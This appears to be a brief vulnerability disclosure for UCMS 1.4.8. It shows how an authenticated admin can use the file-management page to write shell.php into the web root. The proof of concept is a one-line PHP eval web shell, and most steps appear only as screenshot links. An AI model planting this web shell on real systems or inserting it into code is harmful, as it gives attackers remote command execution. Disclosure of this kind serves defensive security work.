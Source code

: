 
#UCMS v1.4.8 getshell


###Vulnerability Version :

1.4.8

Open the URL [http://127.0.0.1/login.php](http://127.0.0.1/login.php), Login to the background.

Open the URL [http://127.0.0.1/ucms/index.php?do=sadmin_file](http://127.0.0.1/ucms/index.php?do=sadmin_file)

###Create a shell.php file to submit

![submit](/img/UCMS.png)


![submit](/img/UCMS2.png)

###Put the request just in the root directory


![submit](/img/UCMS3.png)

#### found the poc： <?php eval($_POST['shell']);?> 

![submit](/img/UCMS5.png)


###getshell

![submit](/img/UCMS4.png)

